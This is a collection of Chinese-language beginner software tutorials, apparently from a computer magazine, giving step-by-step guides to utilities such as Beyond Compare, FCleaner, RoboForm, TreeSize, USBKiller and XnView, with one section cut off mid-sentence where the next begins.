Beyond Compare可以方便用户针对文件、文件夹、压缩文件、FTP网站之间的差异进行对比及资料同步，是程序开发者、网站管理员的绝佳辅助工具。它还强化了在文件夹对比时的多文件操作，不再以原来的多窗口方式，而是采用了流行的标签卡方式，使多个文件的比较得心应手！当然，对于普通用户来说，那些强大的功能都用不上，只有程序内置的“图片比较”功能还颇有用途。这一功能可以通过像素对比来找出两幅图片的不同，简单说，这简直就是针对“来找茬”游戏的无敌外挂，下面我们来试用一下吧。

- 第三步：单击“视图”面板中的按钮，可以快速切换“差异面板”中的显示模式。按钮功能从左至右依次为：隐藏差异面板、容错模式、不匹配范围模式、二进制操作模式。例如，切换到“容错模式”，就能直观看到图片中的差异部分了。

Beyond Compare的“图片比较”功能很神奇吧？攻克“来找茬”们，真是易如反掌！

### 要约会，让MSN地图为你指路

文/TMG qf

在网上和朋友聊天讨论出行路线或是约会地点，单靠文字表述是不是经常表达不清楚，如果能够一起看着地图，在同一张地图上搜索、浏览、标注，实时反映双方的操作真是不错。MSN地图共享就能够提供即时通信的同时带有在线地图共享功能，还能够提供实时的路况信息，让我们及时了解到各条道路的拥堵情况，以找出最好的出行路线。

- 第一步：在Windows Live Messenger的对话窗口中，单击菜单栏中的“活动”按钮，选择“共享地图”选项，即可向好友发出邀请。



下载MSN地图共享软件（下载地址：http://www.skycn.com/soft/26521.html），解压缩安装软件，运行MSN地图共享。

- 第二步：等待对方同意后，界面的右侧会自动展开地图，默认展开的是中国地图，我们可以通过左上方的控制按钮对地图进行缩放。

#### 在线共享地图

MSN地图共享与其他的电子地图相比，能够在线共享地图，有互动的部分，不只是查查路线、目的地那么简单。

- 第三步：在搜索栏中输入想要查找的地名，地图会自动定位到目的地，你的好友也会同步看到搜索的结果。可以通过右上方的控制按钮对地图进行拖动、标注。

#### 查询实时路况

现在很多大城市常常会堵车，有了MSN地图共享的实时路况功能，能够让你避开拥堵路段，根据路况选择一条又近又快的出行路线。

首先搜索要查询的城市，出现城市地图，将地图切换到实时路况显示状态。在地图上，道路会用绿色和红色做标识，绿色表示道路很通畅，黄色表示道路即将拥堵，红色表示道路已经很拥堵了（见图）。

电子地图给我们的出行带来了很多便利，而MSN地图共享将电子地图与即时通信相结合，更增强了互动性，还能提供实时路况信息，是不是很炫？你也动心要下载试试了吧！

## FCleaner——清理系统的好帮手

文/TMG qf

计算机用久了，会有很多垃圾文件，运行速度也会变慢，所以应该定期为计算机进行清理。我们可以用FCleaner软件来为系统定期做一个全面的清理和检查。FCleaner是一个集清理和优化功能于一身的免费工具，它能够清除垃圾文件、清理磁盘空间，加快计算机的启动速度、调整系统，使我们的系统运行得更快更稳定。

下载地址：http://www.newhua.com/soft/77575.htm。下载后解压缩，安装软件。打开软件，进入FCleaner主界面。

### 卸载软件

FCleaner除了提供系统清理功能外，还提供了程序卸载功能，方便我们卸载一些垃圾软件。

首先单击主界面中的“Uninstaller”按钮，界面中将会显示出计算机中所安装的程序。接下来单击需要处理的软件，再选择处理方式，可以进行卸载（Uninstall）、修复（Repair）、更新（Update）等多种操作，单击对应的按钮即可（见图2）。

### 清理垃圾

FCleaner的主要功能是清除系统垃圾，它可以简单、快速、高效地帮助用户清除磁盘上无用的文件和垃圾文件，以腾出更多硬盘空间，提高系统运行效率。

FCleaner可清理的系统垃圾类型非常丰富，不仅仅包括系统临时文件、Windows日志文件、剪贴板记录等常见Windows系统垃圾，还可以清理使用IE、Firefox、Google Chrome、Opera以及Safari等浏览器上网产生的垃圾。另外，程序还对Office、WinRAR、Windows Media Player等多种第三方应用程序有痕迹清理功能。用户可以很方便地通过单击程序界面左边的可清理对象列表窗口来分别查看程序可清理对象。



第一步：单击“Cleaner”按钮，FCleaner将自动检测系统环境并勾选系统内存在的一些垃圾文件类型。它会自动检测出一些垃圾文件并勾选出来，这些文件一般包含了临时文件、未完全删除的程序文件等等，我们可以放心地将其清除。而还有一些垃圾文件，需要我们手动勾选进行清理，但一定要小心，不要把系统文件删除了哦。一般情况下我们还是保持程序的默认勾选进行清理（见图1）。

第二步：单击主界面下方的“Analyze”分析按钮，软件将对已勾选的垃圾文件进行分析。稍等一会，FCleaner将快速检测系统并将分析结果显示出来。然后我们单击“Run Cleaner”开始清理按钮，即可执行对检测出的垃圾文件的清理操作。

### 启动项管理

FCleaner可以管理系统开机启动项目，以提高开机速度，我们可以对开机自启动项目进行禁用或者删除，来减少计算机启动时运行的程序，缩短计算机启动时间。

单击主界面上的“Startup Manager”按钮，界面中将会显示目前计算机启动时的项目。选一个需要处理的启动管理项，再选择处理方式，可以设置成不执行（Disable）及移除（Remove）。



### Windows工具

FCleaner还配备了安全中心、系统还原、命令提示等等多种Windows实用小工具，方便我们进行系统管理。

单击主界面上的“Tools”按钮，界面上将会显示出安全中心（Security）、系统还原（System Restore）、系统信息（System Information）、命令提示（Command Line）、计划信息（Scheduled task）的按钮。我们可以分别对这些项目进行管理。单击你想运用的工具按钮，进入各个项目的具体设置，再根据提示进行进一步的操作。

### 个性化设置

FCleaner提供了丰富的程序设置选项，我们在程序的常规选项中可以转换程序的使用语言，可以设置程序清理文件时采取的方式，程序默认采用的是“普通文件删除（快速）”，这种方法对于普通用户进行日常的文件清理是完全够用的，但是如果用户清理的是一些敏感的私密文件，使用正常的删除方法就显得不够踏实，这时可以采用程序提供的其他删除方式。

在我们使用计算机的过程中，系统会自动记录下Cookies文件。Cookies文件可以简便我们的操作，比如省去反复输入用户名及密码的烦恼。但是在默认设置下，FCleaner的清理操作会自动清理掉系统内所有的Cookies文件，这会给我们带来很多不便，因此有针对性的保留Cookies文件就显得很重要。在FCleaner个性化设置中就提供了保留指定的Cookies文件的功能，我们可以在本机已有的众多Cookies文件中挑选出需要保留的Cookies文件，从而达到清理掉的都是无用Cookies的目的。

FCleaner支持用户自定义文件或者文件夹的清理操作。

单击主界面上的“Option”按钮，界面左侧显示了General Options、Browser Cookies、Custom Cleaner三个个性化设置。接下来单击想要设置的选项，在右侧进行进一步的个性化设置即可（见图3）。

## CrazyTalk让照片动起来

文/TMG qf

让你的静态照片动起来，并且能够说话做出丰富的表情，是不是很酷啊？CrazyTalk提供了革命性的脸偶操控技术，只需轻轻点击鼠标就可以控制角色的脸部表情、神态及说话的内容。

下载CrazyTalk（下载地址：http://download.it168.com/162/166/16909/index.shtml），解压缩安装软件。打开CrazyTalk，就可以看见一个人偶在滔滔不绝富有表情地说话。

### 创建角色

+   **第一步：** 单击“角色”按钮，进入角色编辑界面。首先导入一张照片，CrazyTalk提供了从本地导入图片和从TWAIN装置导入的图片导入方式。
+   **第二步：** 图片导入后，将弹出图片处理的对话框，单击左侧工具栏中的“框选”按钮，在图片中框选出人物头像，并调整大小、位置，使其与照片中的头像吻合，单击“下一步”按钮。
+   **第三步：** 进入脸部自动识别界面，图中将会有分别标有1、2、3、4的四个小圆圈。对照右侧的示例，将标有“1”的小圆圈放在人物头像的左眼处；将标有“2”的小圆圈放在人物头像的右眼处；将标有“3”的小圆圈放在人物头像的左嘴角处；将标有“4”的小圆圈放在人物头像的右嘴角处（见图1）。
+   **第四步：** 进入侧面轮廓类型设置界面。在左侧9种侧面轮廓中选取一种最贴近照片中人物面型的轮廓。再细调“轮廓强度”、“动态强度”等属性，使之很贴近人物本身。设置完成后，单击“确定”按钮。
+   **第五步：** 我们还可以对角色进行进一步的细化设定，如眼睛动态、牙齿、口腔及嘴唇。单击“进阶脸部设定”按钮，进入设定界面，可以对每一项仔细地设置。

### 创建脚本

+   **第一步：** 单击“脚本”按钮，进入脚本设置界面。我们可以看见刚刚创建的角色已经有了面部表情，还在微微的动。
+   **第二步：** 为角色配音。给计算机接上麦克风，单击图片下方的小红点，开始录音。调整好音量，录好后单击“确定”按钮。回到脚本界面后，单击图片下方的播放键，就可以看到角色在说刚才录音的话。
+   **第三步：** 单击“情景模板”按钮，下方会出现很多表情的样式，可以从中选择一个，添加到角色中，单击任一表情样式即可（见图2）。
+   **第四步：** 单击“时间轴”按钮，将会弹出脸偶操纵面板，在这个界面中可以细致地设定角色的面部表情，只需拖动鼠标就能轻松设置。
+   **第五步：** 在时间面板中，列出了声音、唇形设置、脸部表情、脸部强度、头部、眼睛、肩膀等随时间变化的设置参数，我们可以在这里对这些参数进行实时调整。这与很多视频编辑软件的操作方法都类似。

至此，一个活灵活现的人偶就展现在我们面前了，用它制作一个短片一定很炫，你是不是也迫不及待地想试一试了呢？

## TpSWF2Video让Flash轻松转视频

文/TMG qf

很多网友都喜欢Flash，会下载收集大量的Flash，但Flash的格式是SWF文件，要用Flash播放器观看，如何把Flash动画格式文件转换成各种主流视频格式呢？

TpSWF2Video就是一款很好的Flash转视频的工具软件，它能够把Flash转换成多种视频格式，可以提取Flash动画中的音频保存为MP3或WMA格式，提取Flash动画中的帧保存为BMP或JPG格式，还可以对Flash动画作一定的编辑处理，功能很强大哦。

下载TpSWF2Video（下载地址：http://www.newhua.com/soft/47764.htm），解压缩安装软件。运行TpSWF2Video，进入软件界面。

### 格式转换

TpSWF2Video最主要的功能就是将Flash动画转化为各种视频格式，好让我们在视频播放器中观看，也方便把它应用到别的软件中去。

+   第一步：在TpSWF2Video主界面中，单击“Add Folder”按钮，在弹出对话框中选择你想要转换的Flash动画文件。
+   第二步：打开Flash文件后，在TpSWF2Video主界面的右侧可以预览Flash，在预览窗口的下方有控制条，来控制Flash播放的暂停、前进、后退等。
+   第三步：设置转化视频的保存路径。单击菜单栏中的“Settings”按钮，选择“Set Output folder”选项，在弹出对话框中选择保存路径。
+   第四步：设置Flash转视频的参数。单击菜单栏中的“Settings”按钮，选择“General Settings”选项。在对话框中设置视频的编码、尺寸、TV制式等等。
+   第五步：各项设置完成后就要转换输出了。TpSWF2Video支持AVI、MPEG、VCD、SVCD、DVD的视频格式，我们可以从中任选一种进行转换。单击“Convert”按钮，开始转换。

### 剪辑动画

TpSWF2Video还提供了编辑制作动画的功能。我们可以在软件中剪辑Flash，提取Flash中我们需要的部分，并把这部分转换为视频格式。

+   第一步：将Flash动画导入TpSWF2Video软件，在预览区可以看到“Mark Start”按钮，这个按钮是用来标记我们想要截取Flash片段的起始位置。当Flash播放到想截取Flash片段的起始位置时，单击“Mark Start”按钮（见图1）。
+   第二步：在Flash动画播放至想要截取片段的结束位置时，单击“Mark End”按钮。
+   第三步：把截取的Flash动画片段输出，设置输出路径及视频格式属性，进行输出。

### 合并动画

TpSWF2Video也可以合并Flash，把几个动画合并成一个动画文件，并把其转换为视频输出格式。

+   在TpSWF2Video中导入要合并的多个Flash，按照顺序排列好。然后单击“Join”按钮，弹出下拉菜单“Join to AVI”、“Join to MPEG”、“Join to VCD”、“Join to SVCD”、“Join to DVD”，从中选择一个格式进行转化并保存即可（见图2）。

### 提取音频

很多Flash中的音乐都很好听，我们可以把这些音乐转换成MP3或WMA格式，用音乐播放器欣赏。

+   在TpSWF2Video导入提取音频的Flash，单击工具栏中的“Extract sound”按钮，即可快速将Flash中的音频提取出来。然后选择要转换的音频格式及路径，输出音频。

### 提取图片

Flash中会有很多好看的画面，TpSWF2Video提供了提取图片的功能，能够将Flash以连续或非连续方式提取帧为BMP/JPG格式的图片。

+   在TpSWF2Video导入提取图片的Flash，在预览区播放该Flash，播放到想提取图片的帧暂停，单击工具栏中的“Capture Frame”按钮，则提取了该帧的图片。如果想把每一帧提取成图片，则直接单击“Convert Frame”按钮，TpSWF2Video会将Flash动画中的所有帧转换成序列图片的形式。

## PhotoCap将照片变成拼图

喜欢玩拼图吧？不知道大家有没有想过将自己喜爱的图片、照片做成拼图。例如，朋友生日时，送张他的照片弄成的拼图，别出新意，朋友也会十分高兴。如何做拼图呢？很简单，使用PhotoCap一下子就搞定。

下载PhotoCap软件（下载地址：http://www.newhua.com/soft/20146.htm），安装软件。打开PhotoCap软件，单击“载入”按钮，选择一张你要编辑的图片。

### 加上漂亮外框

加了外框，显得更加大方漂亮，这样我们拿出去展示也不会让人感觉很土气。

首先单击“加外框”按钮，进入外框编辑界面。根据个人喜好，选中单击界面右侧的各种外框效果，装扮图片。在界面上可以一一预览到你选中的外框效果，最终选择最满意的把它确定下来，单击“OK”按钮即可（见图1）。



### 制作拼图

有了一个漂亮的外框，我们就可以放心开始制作拼图了。首先单击“制作拼图”按钮，进入拼图工厂界面。在此窗口内根据我们的需要选择拼图造型、拼图的块数，然后单击“OK”按钮就可以了（见图2）。最后把设计好的拼图保存好，然后打印出来，贴在卡纸上，再用剪刀剪下来，我们想要的真正的漂亮拼图也就大功告成了。梦幻般的拼图，简易的操作，实在令人心动不已。



### 制作缩小型的完整图，方便参考

此外，假如你想制作的拼图，还包含有一些缩小型的完整图片，方便以后拼图时参考查阅，可以利用PhotoCap的“材质工厂”功能。

+   第一步：照样选择上述那个加了外框的图片，单击“制作材质”按钮，进入材质工厂界面。
+   第二步：在此窗口内我们也根据需要，选择设定好各种具体参数，顺便借助预览查看效果，最终把所有设定单击“OK”按钮确定下来。
+   第三步：把此缩小型的图片另存到你指定的文件夹里，然后把它打印出来，贴在拼图上，那就非常完美了。一张完完整整的拼图最终搞好了，随时可以拿出去炫耀一番。

PhotoCap这个免费软件，功能强大，操作简单，很多复杂的功能都做到一键化。感兴趣的朋友不妨尝试一下，将你的照片制作成拼图，绝对回味无穷。

## QQ影音轻松制作GIF动画

在QQ聊天室，我们经常看到一些GIF动画，很多人喜欢收集这些搞笑的GIF动画，如果能搞点独创性的GIF动画就好了。不过做一个GIF动画还挺费事的，现在有了QQ影音的GIF截取功能，做GIF动画就方便多了。

下载地址：http://player.qq.com

+   第一步：下载QQ影音软件，解压缩安装软件。打开QQ影音，播放一个视频。
+   第二步：在视频画面上右键单击，在弹出快捷菜单中，选择“GIF截取”选项，弹出GIF截取面板（见图）。
+   第三步：设置GIF动画时长：默认时长是5秒，最大时长是10秒，我们可以根据自己的需求进行选择。
+   第四步：精确调节起始点和结束点：这里的两组箭头按钮分别用来调整起始点和结束点的时间，可以精确到帧。
+   第五步：调节GIF动画尺寸：默认的GIF动画尺寸是中图（200×150），另外还有大图（320×240）和小图（150×110）两个尺寸，可以通过下拉菜单选择。
+   第六步：调节动画的快慢：在GIF截取面板中选择“预览”按钮，就进入了预览状态。然后，在面板中拉动快慢的滑竿，就可以调节GIF动画的快慢，而且预览画面还会实时地播放改变速度后的GIF动画。
+   第七步：在GIF截取面板中单击“保存”按钮。软件开始截取动画，截取完毕后，选择保存路径即可。

## 有了Style xp 打造百变XP

文/TMG lx

爱美之心人皆有之；漂亮的桌面风格可以让我们心情愉悦，使用起来更加舒心。但是现在我们已经不能仅仅满足于桌面墙纸的变化，而是要进一步追求系统显示风格的多变，谁不希望自己的系统独一无二呢？有请TGTSof公司开发的针对于XP的桌面主题管理工具——Style xp，它简单易用，不仅可以使用自带皮肤，改变Windows的外观界面，还提供皮肤制作软件，让我们自己DIY系统界面。

Style xp针对于男士与女士有两个不同版本，大家可以根据需要进行下载（Style XP 3.19 Ladies 中英文版http://www.newhua.com/soft/25745.htm，Style XP 3.19 Men 中英文版http://www.newhua.com/soft/23192.htm）。下载结束后，解压安装，进入软件的主界面，默认为英语，为了使用方便，可以通过“Language（L）”选择语言为简体中文。界面还是很不错的吧？让我们一起来看看Style xp究竟可以干些什么。

### 更改系统主题

大家都知道Windows自带的主题风格就那么几种，换来换去也就厌烦了。Style xp提供了更多的主题，满足你挑剔的眼光！同时还可以自己创建新的主题，满足多变的要求。这些自带主题制作都很精美，颜色淡雅柔和。

单击界面左侧菜单栏的“主题”按钮，切换至右侧界面，选择中意的主题，并对其进行设置，单击“应用主题”按钮进行应用（见图1）。



### 桌面墙纸管理

主题设置好了之后，本身就自带一个桌面，如果你觉得有点单调，就可以单击“背景”按钮进行桌面墙纸的设置（见图2），有很多自带墙纸，如果不满意还可以单击“搜索路径”，选择本机上的好看图片作为墙纸。另外，还可以对墙纸显示的位置、风格进行设置。

单击界面左侧菜单栏的“背景”按钮，切换至右侧界面，选择中意的墙纸，并对其进行设置，单击“应用此背景到当前主题”按钮进行应用。



### 更换图标风格

除了能设置主题和墙纸外，Style xp还可以通过单击左侧菜单栏的“Explorer Bar”、“Icons”、“Cursors”按钮，分别更改IE浏览器图标、Windows的图标、鼠标指针。软件本身自带很多很不错的图标和指针包，可以尽情选择。这下你的系统更加个性了吧？

Style xp更为强大之处在于它还可以对Windows的登录界面和启动界面进行更改，只要单击左侧菜单栏的“登录”和“Boot Screens”按钮就可以进行设置了。相信利用这款软件，每个人都可以打造出来属于自己的百变XP!

## Mushykeys网上练习打字

文/TMG zlw

随着办公自动化的普及，不会打字已经等于文盲了，打字速度慢也足以成为被人嘲笑的理由。所以对于求职者来说，快速打字已经成为必不可少的基本技能之一，有时找工作是否成功往往也就取决于这些小的细节。

可是，打字打得快也不是与生俱来的，需要平时不断练习。记得以前有一种名为“学习机”的工具，在游戏的同时也可以专门用来练习，提高打字的速度和减少错误率。现在一些打字软件非常枯燥，Mushykeys网站的打字游戏来到了你的身边。这个小小的打字游戏可以让你轻松提高打字速度，而且很有趣，能不断地升级，激起人们挑战的欲望。如果大家可以一起使用，还可以相互切磋。

首先打开Mushykeys网站（http://www.mushykeys.com/h4sh/FingerFandango），进入到主界面，就是下面这个简单的画面。可不要掉以轻心，里面可是暗藏玄机的。让我们点击一下“Let me play!”按钮吧。

进入到游戏界面以后，就要开始有心理准备了，因为战斗即将开始。这一小段时候是给你做战前准备的，比如调整好心态，必须充分利用。点击左上角的“New Game”按钮，游戏立马开始，开始挑战吧！马上就可以检测出你真实的打字水平。

到底这个游戏要怎么玩呢？我们还是来研究一下正在游戏的画面吧（见图1）。游戏界面最上层的空心字母就是你的目标，你的任务就是当下层实心的## RoboForm——表单填充和密码管理的好帮手
文/TMG hzl

我们上网时经常要填表单以及填密码，比如MSN、QQ要填密码，注册邮箱要填表单，就算去论坛看一下帖子也避免不了。忘记密码会带来一些麻烦，有没有好的方法来解决？现在有了RoboForm帮助我们轻松处理表单和密码，你可以高枕无忧了，过去那些繁琐的工作一去不复返了。

下载RoboForm这款免费软件（下载地址：http://www.newhua.com/soft/3001.htm），安装完成后，会弹出一个对话框，要求设置主密码，设置好主密码后，即可运行此软件了。

### 保存密码卡片，一键自动登录

平时登录论坛、邮箱或者QQ时，最麻烦的是每次都要填写密码。其实，利用RoboForm的自动保存密码卡片，轻松一键即可实现登录。

- 第一步：第一次登录邮箱后，RoboForm会自动弹出一个窗口，我们输入密码卡片名称，保存好即可。
- 第二步：此邮箱的登录密码保存在密码卡后，我们再在弹出的主密码输入界面里成功输入主密码，于是此邮箱的登录密码即可保存在密码卡片中了。
- 第三步：下次我们登录此邮箱时，直接单击RoboForm工具栏上的密码卡片名称，软件自然会自动填写用户名和密码，无需我们来输入，轻松一键即可实现登录（见图1）。



### 冗长的注册表格，只需要鼠标一点

很多时候，是否对一次又一次在不同的网站上提交相同的信息进行注册，而感到疲倦或厌烦？毕竟注册表格是非常繁琐的事情，而我们却不能不认真填写。借助RoboForm的帮忙，你可轻松一点鼠标，即可搞定。

- 第一步：在RoboForm内填写个人用户Administrator的身份信息，将所有信息具体详细地填写完毕后，单击“保存”按钮保存好所有的身份信息。
- 第二步：在网站注册填表时，选择RoboForm的身份信息的标签，单击“填表”，RoboForm就会自动输入我们的用户名、电子邮件地址、住址和更多的信息，操作非常简单（见图2）。



- 第三步：Roboform内嵌在浏览器里运行，它会让我们建立任意多个注册标识，可以在这些注册标识之间任意切换，而不用记住在不同的网站用不同的用户标识，十分方便。

通过Roboform可以自动将密码卡片保存和填充表单，以及保存和记录在线密码，查看和编辑甚至打印密码，十分方便和实用。轻松摆脱诸多密码的困扰，感觉不错！





## TreeSize——硬盘空间管理好帮手
文/TMG hzl

目前，电脑硬盘的容量越来越大，但很多朋友都会发觉，硬盘变大了却越来越不够用，电脑使用一段时间后，很容易产生磁盘空间不足的问题。怎么办呢？我们的硬盘空间都浪费在哪了？不用发愁，使用TreeSize软件，可以轻松帮助我们整理出各个目录里面文档大小的列表，图形化显示硬盘使用状况，空间占用的秘密一目了然。

下载TreeSize软件（下载地址：http://www.newhua.com/soft/1328.htm），安装软件。双击TreeSize软件图标，进入软件主界面。

### 轻松查看硬盘占用状况

你想知道硬盘空间的具体情况吗？各种文件具体占据了多大的空间？其实，通过TreeSize软件，你会发现一切变得很简单了，那些文件大小和实际占空间数及其浪费的空间等都精细地显示出来。

双击直接选择硬盘的分区，一会儿界面上就列出空间统计图，包括显示文件夹所占空间、所占空间百分比或包含文件数（见图1）。在主界面的右侧选项卡上选择单击“Details”和“Top 100 Files”，可以查看到哪个文件夹和文件所占的空间是最大的（见图2）。确定哪些文件可以删除，以便省下空间，应该很明确了吧？





具体使用情况打印出来。

### 打印数据表单进一步分析

有时我们需要把电脑硬盘的具体使用情况告诉别人，进一步分析电脑，以便于更好地整理硬盘以及其他操作。TreeSize这个硬盘空间管理器设计得很人性化，它可以方便地将硬盘的具体使用情况打印出来。

在主界面的右侧选项卡上根据个人需要选择单击“Chart”、“Extensions”、“Details”或者“Top 100 Files”等标签，我们将会看到很多数据一一列在表里。选择需要的数据表，接着单击打印按钮，在弹出的打印窗口上设置好各项参数，就可以放心将那些数据打印出来，简易快捷。

TreeSize还附带一些与文件操作相关的功能选项，比如文件搜索、计划任务等，相当实用。

## 让电脑智能自动关机
文/TMG qf

我们经常忘记关掉电脑，让电脑整晚开着，或开着电脑而去干别的事情了，而让电白白地浪费掉，也使电脑持续运行，降低电脑寿命。“智能关机”软件就可以帮你自动关机，它提供了多种关机方式，能很好地控制关机时间。

下载地址：http://down.tech.sina.com.cn/content/8535.html

- 1. 第一步：下载解压缩智能关机软件，运行软件，进入智能关机主界面。首先设置关机的计时方式，单击“计时方式”的下拉菜单，软件提供了倒计时、键鼠空闲、定时、CPU检测、网络检测等多种计时方式（见图）。
- 2. 第二步：设置好计时方式，就要设置计时的时长了。在计时方式的右侧输入小时、分、秒的计时长度。
- 3. 第三步：智能关机除了定时关机功能外，还有很多其他功能，如重启、注销、待机、锁定、休眠等等。在“任务”区域内勾选需要执行的任务。
- 4. 第四步：设置好各选项后，单击“开始”选项，即开始倒计时了，到了预设的时间将执行预设的任务。
- 5. 第五步：我们还可以进一步做个性化设置。单击“设置”按钮，弹出设置对话框。在这里我们可以设置报时的声音、窗口的样式等等。


智能关机软件可满足我们关于“关机”和“任务计划”软件的需求，及时地为我们关闭电脑。智能关机软件十分小巧，而且使用起来非常便利，你也总忘关机吗？赶紧下载试试吧！

## USBKiller——U盘的保护伞
文/TMG lxr

U盘的出现，极大方便了我们平时的学习和生活。但由于它要经常拔插于不同电脑之间，自然也就存在着许多潜在的危险，其中病毒的侵入恐怕是最致命的打击，有时候会给我们带来不可估量的损失。所以U盘的安全问题非常重要。

接下来为大家推荐一款软件——USBKiller，它专门用于预防及查杀U盘病毒、Auto病毒，可以对U盘实施主动防御，自动检测清除插入U盘内的病毒，可以从根源上铲除病毒，查杀U盘病毒更加彻底更加干净，解决你的后顾之忧，保护你的U盘免受攻击。

该版本为“USBKiller(U盘病毒专杀工具) 2.4 Build0423”（下载地址：http://www.newhua.com/soft/34706.htm），功能强大，独创SuperClean高效强力杀毒引擎，首创主动防御自动检测U盘内病毒，几乎可以解决U盘面临的各种问题。体积小巧，仅为906KB。

### 病毒扫描

USBKiller最大的也是最重要的功能就在于对U盘上病毒的扫描和查杀。

当你发现自己的U盘有些不对劲，好像有病毒，就打开该杀毒软件，将U盘插入电脑后，软件会自动将病毒进行清除。或者可以先将U盘与电脑相连，然后打开USBKiller软件，进行病毒查杀，具体步骤如图1所示。当然如果为了放心起见，或者你的电脑经常进行U盘的拔插，你也可以将软件设置为随机启动，随时监控扫描杀毒。



### 病毒上报

对于我们在U盘中发现的USBKiller无法清除的病毒，我们可以选择进行病毒上报功能。

打开该杀毒软件，选择进入“病毒上报”界面；将病毒进行打包压缩，然后选择病毒的文件路径进行上传。随后，该软件公司就会立即对此类病毒进行处理，并在软件中相应地增加清除该病毒的功能，而你只需要进行更新就可以了。

### U盘免疫

USBKiller还具备U盘免疫功能，可以让病毒永远无法侵入你的U盘（见图2）。通过在根目录下创建病毒同名文件夹Auto.inf来阻止病毒运行的。虽然看起来很简单，但效果还不错哦！



此外，软件还有其他的功能，如进程管理、实用工具、修复系统等，其中解锁功能能够解除U盘的锁定状态，解决因为无法删除设备而带来的问题；修复功能则能够修复无法显示的隐藏的文件。这些功能都能进一步保障你U盘的安全。

让USBKiller为你的U盘撑起一把保护伞，你可以无忧无虑地使用，不必担心病毒侵入而带来的损失了。

## “风满楼”，3D文字制作的好帮手
文/TMG qf

大家看到很多3D文字，是不是想自己亲手制作一下？对于懒于学习专业工具软件的人，有什么方法可以只点一两下鼠标即可得到3D效果的文字呢？风满楼3D文字制作软件能够很轻松地帮你做到这些。

第一步：下载风满楼3D文字制作软件（下载地址：http://www.newhua.com/soft/31877.htm），解压缩软件，然后直接运行“风满楼3D文字制作.exe”即可进入软件的主界面。进入软件的主界面以后，我们可以看到软件的主界面非常的简洁；由菜单栏、工具栏及工作区三大部分组成。把鼠标移动到工作区右下角，当鼠标变成两端箭头状态时，按住拖动鼠标可以调整工作区的尺寸。

第二步：在“文本栏”后面输入你想要制作的三维文字，这时文本栏中的“应用”按钮已经被激活，单击“应用”按钮。

第三步：我们再来设置一下背景颜色，单击背景颜色选择按钮，弹出颜色下拉列表，选择你喜欢的颜色。如果没有你喜欢的，可以单击“其它颜色”按钮，会出现更多的供选颜色。

第四步：背景颜色选择好以后，再来设置一下文字的属性。单击“编辑”按钮，然后在弹出菜单中选择“文字属性”选项，或直接单击工具栏上的文字属性快捷图标。在文字属性窗口下，选择文字的字体，大小、还可以给文字加粗、倾斜、下划线、删除线效果；在阴影栏下面选择阴影的方向、方式及深度；在颜色选项区域选择前景色、背景色，从而形成颜色的渐变效果。然后单击“确定”按钮（见图）。



第五步：在工作区域的空白处单击一下鼠标左键，这时你所制作的3D文字就会在工作区中显示出来。如果你再单击一下，就会出现两个相同效果的文字。制作满意以后，单击“保存”按钮将你制作的3D文字保存起来。该软件支持bmp位图图片格式。

我们只要点击几下鼠标就可以轻松完成3D文字的制作过程，对于3D文字要求不高的使用者来说是最佳选择。赶紧下载来试试吧！

## vloud网上扩音器
文/TMG zlw

不知道各位在网络上欣赏音乐时是不是也碰到过以下问题：把自己喜欢的歌曲下载了下来，在本地欣赏时却会发现，有一部分歌曲听起来很小声，即使音箱的音量开到了最大也还是于事无补，依旧对耳朵是个强大挑战，把听歌的心情给破坏掉，实在是很无奈。其实，这个现象的出现并不是我们的电脑出现问题，而是因为下载的歌曲文件有问题。这里向大家推荐一个网页（http://www.vloud.com）。它不需要下载任何的专业软件，只需要在此网页上对歌曲进行一项简单的选择，就能将歌曲的音量变得大声、更大声，最后调整到最适合自己欣赏的状态。

打开网页，你会发现这是一个全英文的界面。千万不要对自己的英语水平没自信，这点英语单词绝对难不倒你的。整个网页最醒目的就是玫瑰红色的“vloud”标志，在标志底下，就介绍了这款工具的作用：能将mp3之类格式的音乐文件的音量调大。

接下去，你就会看到四个单选项，分别是：light、loud、louder和loudest。其实我们就是通过选择这四个选项，将我们下载的音乐文件音量调整到最适合自己的状态。

然后，是供我们选择歌曲的“浏览”栏了，在选择时一定要注意：只能选择大小在10MB以内的mp3和wav格式的音乐文件。一旦超过此大小或不是以上格式，工具会罢工，你的音乐文件也就不会有任何改变了。这点千万要记得。

在了解网页的功能之后，我们还是亲自来操作一下吧：

- 第一步：打开“vloud”网页。
- 第二步：点击“浏览”按钮，在弹出的“选择文件”窗口内将电脑中已下载的需要调节的音乐文件选中。需要特别注意文件的大小和格式。
- 第三步：根据需要，在四个单选项中选择最适合自己的。当然该网页也允许你尝试着一步步、一遍遍地调整，直至调整到最适合自己的音量（见图）。注意：调整声音一定要适可而止。



- 第四步：这一步其实是不需要我们进行操作的。在将音乐文件和音量调整目标设定好后，vloud网站会将我们上传的歌曲自动调整到我们需要的状态，而不需要我们再进行手动操作。

就这样，以前需要我们下载专门的软件才能攻克的小麻烦，在vloud网站上轻而易举地就解决了。无需下载、无需安装、没有复杂的操作流程，只需要打开网页，一键搞定。这样优质的“傻瓜工具”让我们的生活更轻松。

## XnView不让你的图片受折磨
文/TMG hzl

平时，我们经常根据需要将图片缩小或放大，而在此过程中往往改变了大小却使图片变形了，使人十分郁闷，到底有没有专门的软件可以调整图片大小却不失真不变形呢？现在有了XnView这款免费转换软件，可巧妙地调整图片尺寸，转换成你需要的文件，并确保图片不失真不变形，轻易满足你的需求。

下载XnView软件安装程序（下载地址：http://www.newhua.com/soft/1389.htm），解压安装软件，然后双击打开XnView软件。

为了确保图片转换质量，保证图片不变形，我们就来具体介绍该如何操作，达成我们的心愿。

- 第一步：为了方便快捷地转换所有选定的图片，一开始我们就应该先设置好。在软件主界面上选择“工具→选项”，然后在弹出的窗口里单击左上角的“通用”项，接着单击页面右侧的“杂项”标签，在“转换”下拉列表框选择“对当前文件夹（包含子文件夹）中的全部图像文件”，最后单击“确定”按钮即可完成设置。
- 第二步：开始转换图片。选择“工具→转换”，打开转换窗口，在此我们还可以通过窗口里的“添加”、“添加文件夹”、“删除”、“删除全部”按钮，精确地选取好我们需要转换的图像文件。而在“输出”项目里设置好输出文件夹，首先应在“目录”中输入转换后图像文件的保存路径，当然如果不输入则默认为当前路径。然后选择输出图像文件的格式，如果想更加精确可单击“选项”，在弹出的“选项”窗口里精确设置。同时我们也不要忘了选择覆盖方式。
